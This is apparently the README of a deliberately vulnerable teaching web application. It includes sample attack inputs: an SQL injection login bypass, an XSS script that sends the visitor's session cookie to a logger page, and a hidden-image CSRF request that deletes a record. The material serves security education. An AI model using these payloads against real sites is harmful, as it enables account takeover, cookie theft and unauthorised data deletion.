 # Introduction

This is a simple application that demonstrates a few typical web application vulnerablities. The example covers:

* an SQL injection vulnerability,
* an XSS vulnerability,
* a CSRF vulnerability,
* an improper storage of sensitive data,
* an improper use of HTTP methods,
* and improperly secured URLS.

# SQL Injection 

As a username, provide `student' OR '`

# XSS 

XSS attack. This entry forces the visitor's browser to send its session cookie to the attacker's page.

```html
<script>
var request = new XMLHttpRequest();
request.open("GET", "http://localhost/ex12/xss-logger/upload-cookies.php?" + document.cookie, true);
request.send(null);
</script>
```

# CSRF 

CSRF attack. This entry forces the visitor's browser to issue a GET request to the server. If the visitor is logged-in, the request will successfully access a protected resource -- will delete a joke.

```html
<img src="joke/delete?id=3&delete_confirmation=on" width="0" height="0" />
```
